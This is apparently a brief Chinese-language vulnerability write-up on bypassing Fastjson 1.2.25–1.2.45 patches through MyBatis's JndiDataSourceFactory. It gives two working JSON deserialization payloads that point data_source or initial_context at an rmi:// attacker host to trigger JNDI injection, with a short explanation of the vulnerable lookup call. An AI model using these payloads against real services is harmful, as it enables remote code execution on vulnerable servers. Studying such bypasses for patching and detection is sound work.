

# Fastjson1.2.25-1.2.45补丁绕过(mybatis<3.5.0)

先给出payload

```Java
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://vps:port/TouchFile"}}
```

我们看看这个`JndiDataSourceFactory`，可以看到这里面的`setProperties`方法中调用了`InitialContext.lookup()`



其中参数由我们输入的properties属性中的data_source值获取的,之后就是由JNDI注入漏洞成功触发Fastjson反序列化漏洞了。

当然也可以由上面的分支进行JNDI注入

```Java
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"2333","initial_context":"rmi://ip:port/TouchFile"}}
```

